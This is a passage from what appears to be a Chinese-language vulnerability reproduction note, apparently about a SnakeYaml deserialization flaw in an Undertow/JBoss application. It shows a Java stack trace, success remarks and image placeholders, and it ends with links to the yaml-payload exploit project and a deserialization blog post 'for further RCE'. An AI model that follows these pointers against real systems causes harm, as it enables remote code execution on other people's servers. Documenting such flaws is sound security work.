handleRequest:77, CachedAuthenticatedSessionHandler (io.undertow.servlet.handlers.security)
handleRequest:43, AbstractSecurityContextAssociationHandler (io.undertow.security.handlers)
handleRequest:43, PredicateHandler (io.undertow.server.handlers)
handleRequest:52, SendErrorPageHandler (io.undertow.servlet.handlers)
handleRequest:43, PredicateHandler (io.undertow.server.handlers)
handleFirstRequest:269, ServletInitialHandler (io.undertow.servlet.handlers)
access$100:78, ServletInitialHandler (io.undertow.servlet.handlers)
call:133, ServletInitialHandler$2 (io.undertow.servlet.handlers)
call:130, ServletInitialHandler$2 (io.undertow.servlet.handlers)
call:48, ServletRequestContextThreadSetupAction$1 (io.undertow.servlet.core)
call:43, ContextClassLoaderSetupAction$1 (io.undertow.servlet.core)
dispatchRequest:249, ServletInitialHandler (io.undertow.servlet.handlers)
access$000:78, ServletInitialHandler (io.undertow.servlet.handlers)
handleRequest:99, ServletInitialHandler$1 (io.undertow.servlet.handlers)
executeRootHandler:387, Connectors (io.undertow.server)
run:841, HttpServerExchange$1 (io.undertow.server)
run:35, ContextClassLoaderSavingRunnable (org.jboss.threads)
safeRun:2019, EnhancedQueueExecutor (org.jboss.threads)
doRunTask:1558, EnhancedQueueExecutor$ThreadBody (org.jboss.threads)
run:1449, EnhancedQueueExecutor$ThreadBody (org.jboss.threads)
run:745, Thread (java.lang)
```

成功



然后查看记录



成功

进一步 rce 的话参考

<https://github.com/artsploit/yaml-payload>

参考<http://www.bmth666.cn/2022/10/12/java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BSnakeYaml/index.html>
